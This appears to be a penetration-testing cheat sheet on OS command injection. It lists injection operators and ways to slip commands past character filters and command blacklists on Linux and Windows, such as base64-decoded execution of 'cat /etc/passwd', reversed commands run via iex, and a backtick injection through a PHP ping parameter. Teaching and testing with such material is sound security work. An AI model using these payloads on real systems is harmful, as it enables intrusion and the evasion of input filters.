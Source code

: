 # OS Command Injection

## **Introduction**

> * Injection vulnerabilities are considered the number 3 risk in OWASP's Top 10 Web App Risks, given their high impact and how common they are.
> * Injection occurs when user-controlled input is misinterpreted as part of the web query or code being executed, which may lead to subverting the intended outcome of the query to a different outcome that is useful to the attacker.
> * When it comes to OS Command Injections, the user input we control must directly or indirectly go into (or somehow affect) a web query that executes system commands.

***

## **OS Command Injection Tools**

* [Linux - Bash Obfuscator](https://github.com/Bashfuscator/Bashfuscator)
* [Windows - DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation)
* Auto tool - [https://github.com/commixproject/commix](https://github.com/commixproject/commix)

***

## **Injection Operators**

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command                           |
| ------------------ | ------------------- | --------------------- | ------------------------------------------ |
| Semicolon          | ;                   | %3b                   | Both                                       |
| New Line           |                     | %0a                   | Both                                       |
| Background         | &                   | %26                   | Both (second output generally shown first) |
| Pipe               | \|                  | %7c                   | Both (only second output is shown)         |
| AND                | &&                  | %26%26                | Both (only if first succeeds)              |
| OR                 | \|\|                | %7c%7c                | Second (only if first fails)               |
| Sub-Shell          | \`\`                | %60%60                | Both (Linux-only)                          |
| Sub-Shell          | $()                 | %24%28%29             | Both (Linux-only)                          |

***

## **Linux Filtered Character Bypass**

| Filtered Character | Bypass Method           | Description                                                                      |
| ------------------ | ----------------------- | -------------------------------------------------------------------------------- |
| printenv command   | `printenv`              | Can be used to view all environment variables                                    |
| Space Character    | %09                     | Using tabs instead of spaces                                                     |
| Space Character    | ${IFS}                  | Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $()) |
| Space Character    | {ls,-la}                | Commas will be replaced with spaces                                              |
| `/` Character      | ${PATH:0:1}             | Will be replaced with /                                                          |
| `;` Character      | ${LS\_COLORS:10:1}      | Will be replaced with ;                                                          |
| Any Character      | $(tr '!-}' '"-\~'<<<\[) | Shift character by one (\[ -> )                                                  |

***

## **Windows Filtered Character Bypass**

| Filtered Character | Bypass Method          | Description                                                  |
| ------------------ | ---------------------- | ------------------------------------------------------------ |
| Env command        | Get-ChildItem Env      | Can be used to view all environment variables - (PowerShell) |
| Space Character    | %09                    | Using tabs instead of spaces                                 |
| Space Character    | %PROGRAMFILES:\~10,-5% | Will be replaced with a space - (CMD)                        |
| Space Character    | $env:PROGRAMFILES\[10] | Will be replaced with a space - (PowerShell)                 |
| `\` Character      | %HOMEPATH:\~0,-17%     | Will be replaced with `\` - (CMD)                            |
| `\` Character      | $env:HOMEPATH\[0]      | Will be replaced with `\` - (PowerShell)                     |

***

## **Linux Blacklisted Command Bypass**

| Blacklist Bypass         | Payload                                                      | Description                         |
| ------------------------ | ------------------------------------------------------------ | ----------------------------------- |
| Case Manipulation        | `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                           | Execute command regardless of cases |
| Case Manipulation        | `$(a="WhOaMi";printf %s "${a,,}")`                           | Another variation of the technique  |
| Reversing a Command      | `echo 'whoami' \| rev`                                       | Reverse a string                    |
| Reversing a Command      | `$(rev<<<'imaohw')`                                          | Execute reversed command            |
| Base64 Encoding Commands | `echo -n 'cat /etc/passwd \| grep 33' \| base64`             | Encode a string with base64         |
| Base64 Encoding Commands | `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)` | Execute b64 encoded string          |

***

## **Windows Blacklisted Command Bypass**

| Blacklist Bypass         | Payload                                                                                               |
| ------------------------ | ----------------------------------------------------------------------------------------------------- |
| Case Manipulation        | `WhoAmi`                                                                                              |
| Reversing a Commands     | `"whoami"[-1..-20] -join ''`                                                                          |
| Reversing a Commands     | `iex "$('imaohw'[-1..-20] -join '')"`                                                                 |
| Base64 Encoding Commands | `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                       |
| Base64 Encoding Commands | `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('BASE64OUT')))"` |

***

## Miscellaneous & Tricks

{% hint style="info" %}
This section contains tricks for specific languages and web frameworks
{% endhint %}

***

### PHP backtick character

The backtick character (`` `) `` in PHP can be used to gain OS command injection, as it is a character used for shell commands execution, similarly to `shell_exec()`function.

When you enclose a string in backticks, PHP will execute it as a shell command and return the output.

Consider the following example scenario:

1. You are dealing with a web application written in PHP where a `ping.php` page is hosted.
2. Navigating to `http://example.com/ping.php?ip=10.10.10.10` allows users to ping the ip address specified (10.10.10.10)
3. If any standard way to perform OS command execution does not work, you could use the backticks to your advantage. For example, you could navigate to:\
   `` http://example.com/ping.php?ip=10.10.10.10;`ls` `` \
   to effectively run the `ls` command after the ping
